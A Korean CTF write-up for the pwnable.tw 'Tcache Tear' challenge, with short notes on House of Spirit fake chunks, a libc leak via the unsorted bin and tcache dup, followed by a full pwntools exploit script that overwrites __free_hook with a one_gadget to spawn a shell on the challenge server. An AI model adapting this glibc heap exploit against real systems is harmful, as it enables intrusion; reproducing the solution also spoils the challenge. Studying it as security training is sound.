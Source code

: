 ```yaml
---
title: "[pwnable.tw]Tcache Tear"
date: 2020-3-16
ctf: Pwnable.tw
layout: post
published : false
---
```


* tcache exploit (glibc 2.27 Ubuntu 18.04)
* DFB & House of Spirit 
* tcache dup
* bss fake chunk

너무 재밌게 풀었다.  house of spirit을 이용해 fake chunk를 구성해서 ptr을 변경시키고 free 시켜서 unsorted bin을 leak할 수 있었다. 그 전에 free할 때 다음 청크도 검사하기 때문에 name + 0x500 위치에 또 다른 fake chunk를 만들어주었다. 그 이후로는 tcache dup해주면 되는데 __free_hook을 one_gadget으로 덮어줬다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./tcache_tear')
libc = e.libc
# p = process('./tcache_tear')
p = remote('chall.pwnable.tw',10207)
ru = p.recvuntil
sa = p.sendafter
sla = p.sendlineafter
name = 0x0000000000602050
ptr = 0x0000000000602088 # void *ptr
fake = 0x602550 # name + 0x500

def malloc(size,data):
	sa('Your choice :','1')
	sa('Size:',str(size))
	sa('Data',data)

def free():
	sa('Your choice :','2')

def info():
	sa('Your choice :','3')

def quit():
	sa('Your choice :','4')

sa('Name:','A')

malloc(0x80,'A'*8)
free()
free()
malloc(0x80,p64(fake))
malloc(0x80,'B'*8)
fakechunk1 = p64(0) + p64(0x21) + p64(0) * 3 + p64(0x21)
malloc(0x80,fakechunk1)

malloc(0x70,'C'*8)
free()
free()
malloc(0x70,p64(name))
malloc(0x70,'D'*8)
fakechunk2 = p64(0) + p64(0x501) + p64(0) * 5 + p64(name + 0x10)
malloc(0x70,fakechunk2)

free()

info()
libc_base = u64(ru('\x7f')[-6:].ljust(8,'\x00')) - 0x3ebca0
log.info('libc_base : {}'.format(hex(libc_base)))
free_hook = libc_base + libc.symbols['__free_hook']
log.info('__free_hook : {}'.format(hex(free_hook)))
oneshot = libc_base + 0x4f322 # 0x4f2c5 0x4f322 0x10a38c

malloc(0x60,'E'*8)
free()
free()
malloc(0x60,p64(free_hook))
malloc(0x60,p64(0))
malloc(0x60,p64(oneshot))

free()

p.interactive()
```

<br />

## Reference

https://github.com/shellphish/how2heap/tree/master/glibc_2.26